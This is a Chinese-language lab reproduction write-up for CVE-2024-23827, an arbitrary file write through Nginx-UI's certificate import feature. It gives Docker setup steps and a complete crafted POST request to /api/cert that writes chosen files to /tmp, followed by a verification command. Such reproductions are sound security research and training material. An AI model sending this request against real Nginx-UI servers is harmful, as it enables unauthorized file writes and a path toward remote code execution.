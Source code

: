 # CVE-2024-23827 通过导入证书功能写入任意文件 

#### 漏洞描述

Nginx-UI 是一个用于管理 Nginx 配置的 Web 界面。导入证书功能允许任意写入系统。该功能不会检查提供的用户输入是否是证书/密钥，并允许写入系统中的任意路径。可以利用该漏洞进行远程代码执行并覆盖配置文件 app.ini。版本 2.0.0.beta.12 修复了该问题。

项目下载地址https://github.com/0xJacky/nginx-ui/releases/tag/v2.0.0-beta.10-patch

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2024-23827
- https://blog.csdn.net/shelter1234567/article/details/136303180

## 漏洞环境

执行如下命令启动一个包含漏洞的Nginx-UI环境：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:80即可查看web页面。在Nginx UI的第一次运行时，请在浏览器中访问“http://<your_server_ip>:<listen_port>/install”完成后续配置

## 漏洞复现

前端登录，获取有效Authorization

![](https://img-blog.csdnimg.cn/direct/e3bc413ac55c4964aa9e119d48bc6814.png)

开启burp 修改请求包

![](https://img-blog.csdnimg.cn/direct/082d89af90d94d2ea7cd49b872ebf334.png)

```go
POST /api/cert HTTP/1.1
Host: 192.168.116.128:9000
Accept: application/json, text/plain, */*
Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYWRtaW4iLCJleHAiOjE3MDkwMTM2NTl9.dRDlO1X1hZdSlpW7TMRIsInNpm2VcIBMiEDPfFxZo-c
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Referer: http://192.168.116.128:9000/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: _ga=GA1.1.2049876865.1708327587; _ga_ZCZHJPMEG7=GS1.1.1708327586.1.1.1708327666.0.0.0; kirby_session=cc1d1a863be81c336432fd9289a4b1dcda92ec43%2B1709870053.fc16749a4dca942d7b1b.c69e92337168ffdf0dab0629ba6d4bd795e9facde4f117c1b0f512656bad94fa
Connection: close
Content-Length: 158

{"name":"poc","ssl_certificate_path":"/tmp/test.jsp","ssl_certificate_key_path":"/tmp/test2.sh","ssl_certificate":"testjsp","ssl_certificate_key":"test2sh"}
```

发包成功，看一看文件是否真正被写入

```
ls -la /tmp/test*
```

![](https://img-blog.csdnimg.cn/direct/2ab694080c1f453e97cde0d17fba4661.png)

文件成功被写入 漏洞复现成功
